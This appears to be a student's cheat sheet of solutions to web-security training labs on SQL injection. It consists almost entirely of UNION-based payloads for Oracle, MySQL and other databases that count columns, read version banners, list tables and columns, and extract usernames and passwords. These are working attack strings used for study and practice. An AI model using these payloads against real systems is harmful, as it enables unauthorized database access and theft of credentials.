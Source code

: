 # Lab: SQL injection attack, querying the database type and version on Oracle

### This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

- Determine Number of Columns using dual table (special built in table for Oracle)
`'+UNION+SELECT+NULL,NULL+FROM+dual--`

- Query to get version info via banner
`'+UNION+SELECT+BANNER,NULL+FROM+v$version--`

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

### This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

- Determine Number of Columns
`'+UNION+SELECT+NULL,NULL#`

- Query to get version info via banner
`'+UNION+SELECT+@@version,+NULL#`

# Lab: SQL injection attack, listing the database contents on non-Oracle databases
- Determine Number of Columns
`'+UNION+SELECT+NULL,NULL--`

- Retrieve List of Tables
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

- Select Specific Table
`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_jkofuc'`

- Select Column Names
`'+UNION+SELECT+username_tyhqei,+password_jjgduf+FROM+users_jkofuc--`

# Lab: SQL injection attack, listing the database contents on Oracle

- Determine Number of Columns
`'+UNION+SELECT+NULL,NULL+FROM+DUAL--`

- Retrieve List of Tables
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

- Retrieve Columns From Table
`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_EURTJQ'--`

- Retrieve Data From Columns
`'+UNION+SELECT+USERNAME_UVKOLW,+PASSWORD_FQOUCN+FROM+USERS_EURTJQ--`
